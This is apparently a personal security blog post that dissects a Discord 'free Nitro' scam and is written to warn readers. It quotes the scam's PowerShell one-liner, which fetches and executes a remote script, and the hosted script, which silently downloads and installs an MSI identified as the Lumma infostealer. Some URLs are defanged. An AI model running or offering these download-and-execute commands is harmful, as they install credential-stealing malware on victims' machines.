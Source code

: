 ```yaml
---
title: 'Analysis of a Discord Nitro Scam'
date: 2025-08-05
description: "Analyzing and dissecting a Discord Nitro Scam and understanding how its malware installer works"
author: 'ABUCKY0'
banner: /blog/analysis-of-a-discord-nitro-scam.png
unlisted: false
tags: ["discord", "nitro", "scam", "analysis", "malware"]
---
```

## Introduction
I'd like to start this out by saying that this is not a guide on how to run the scam, but rather an analysis of how it works and why you should never run it. Please do not attack anyone sending this scam, it's likely they themselves were scammed into running this one or another scam and are not aware of the consequences of running it.

> [!WARNING]
> The code snippets below are malicious. **Do not run them**. I do not control the domain and the infostealer this scam downloads can and will still steal your information.

> [!NOTE]
> The domain referenced below is offline as of writing this blog post, however it's still not recommended to run the scripts below in the case that it is reenabled.
## The Scam Message
I first encountered this scam on Discord in a server I moderate. The scammer sent a message with the following text:
```md
Hey, someone in a private server just shared
this Nitro method.
Apparently you can activate free Nitro by
running this in CMD:

`​powershell -command "if (($Mode = 'app') -and ($ActivateNitro = 'nitro' + 'features.' + $Mode + '/dev')) { $chart = iwr $ActivateNitro -UseBasicParsing; iex $chart.Content }" ​`

I haven't tested it myself yet, but a few people
said it worked for them.
Thought I'd send it to you before it gets
removed or patched.
```

You need a bit of knowlege with powershell to notice anything weird about this. The first thing a seasoned programmer might notice is that in the if statement comparison, it uses only one equal sign. `if (($Mode = 'app')` isn't checking if `$Mode` is equal to `'app'`, it's setting $Mode to app. Powershell comparison operators are like `-eq` for equal, `-ne` for not equal, and similar. You can see all of them on [the Microsoft powershell documentation](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_operators?view=powershell-7.5#assignment-operators).

The second portion of that if statement is doing the same thing. `$ActivateNitro` is being set to `'nitro' + 'features.' + 'app' + '/dev'`. The `-and` in the middle is truthy, meaning it always evaluates to `true`.

`iwr` or `Invoke-WebRequest` is downloading the contents of nitrofeatures|.app/dev. Then `iex` or `Invoke-Expression` executes it's input as a powershell command.

So the whole if statement is doing is:
- Setting `$Mode` to "app"
- Setting `$ActivateNitro` to nitrofeatures|.app/dev (vertical bar added to prevent a link being made)
- Downloading the contents of nitrofeatures|.app/dev into a variable in memory.
- Executing the downloaded powershell script. 


# The Hosted Powershell Script
This one is a bit more straightforward and obvious. Certain portions have been commented out and edited to prevent link embedding.

```powershell
$targetDir = "$env:APPDATA\Svservices"
if (-not (Test-Path $targetDir)) {
    New-Item -ItemType Directory -Path $targetDir -Force | Out-Null
}
$filename = "new2.msi"
$url = #"[https://]nitrofeatures[.]app/$fileName"
$fullPath = "$targetDir\$fileName"

Invoke-WebRequest $url -OutFile $fullPath

Push-Location $targetDir
Start-Process "msiexec.exe" -ArgumentList "/i `"$fullPath`" /qn /norestart" -Wait
Pop-Location

Write-Host "Access to Nitro functionality is temporarily paused due to load. Please try again in 48 hours." -ForegroundColor Yellow
```

I'll quickly go line by line below:

- `$targetDir = "$env:APPDATA\Svservices"` - Creates a variable that holds the name of the directory that the malware is downloaded to.
- ```ps1
  if (-not (Test-Path $targetDir)) {
      New-Item -ItemType Directory -Path $targetDir -Force | Out-Null
  }
  ```
  Checks if the Svservices folder has already been created. If it hasn't, create it. Pipe all output to the void (Out-Null doesn't print it to console).
- ```ps1
  $filename = "new2.msi"
  $url = https://nitrofeatures[.]app/$fileName"
  $fullPath = "$targetDir\$fileName"
  ```
  `$filename` stores the name of the malicious msi file. `$url` stores the download url for the msi file. `$fullPath` stores the download path for the msi executable.
- ```ps1
  Invoke-WebRequest $url -OutFile $fullPath
  ```
  Downloads the msi executable to the Svservices folder. 

- Now the next three lines are the interesting ones. Up until I encountered this malware, I had never seen `Push-Location` and `Pop-Location`. Basically these work as a stack. You push the new location onto the stack (In this case the malware's storage directory), which then changes your current working directory to the one you pushed. 
  ```ps1
  Push-Location $targetDir
  Start-Process "msiexec.exe" -ArgumentList "/i `"$fullPath`" /qn /norestart" -Wait
  Pop-Location
  ```
  `msiexec.exe` installs MSI files. Basically the msiexec command is installing the malware, without a gui or text output, and then doesn't restart the computer.  
  `Pop-Location` returns the current working directory back to the place it was when you opened the Powershell window.
- And then of course, last but not least, it tells the user that their 'free nitro' couldn't be setup since there's no actual free nitro being done. 
  ```ps1
  Write-Host "Access to Nitro functionality is temporarily paused due to load. Please try again in 48 hours." -ForegroundColor Yellow
  ```

# The malware itself
During analyzing the above, I used a https://tria.ge vm. You can read the full report on [https://tria.ge/250805-vmsmlsyjw6/behavioral2](https://tria.ge/250805-vmsmlsyjw6/behavioral2), but tl;dr it's an infostealer. More specifically, it's a Lumma infostealer. According to triage, it tried to look at local email clients, indexed installed software on teh system, and looked to see if there were any other drives. I presume it can also steal discord tokens and such which allows this malware to spread. I can't look into it much farther because the scam domain was taken down when I had tried to go back in and look further. However, it's probably a standard "look in folders that have common stealable stuff like email logins and send them back to the control server". You can read more about Lumma from [this Microsoft security blog](https://www.microsoft.com/en-us/security/blog/2025/05/21/lumma-stealer-breaking-down-the-delivery-techniques-and-capabilities-of-a-prolific-infostealer/)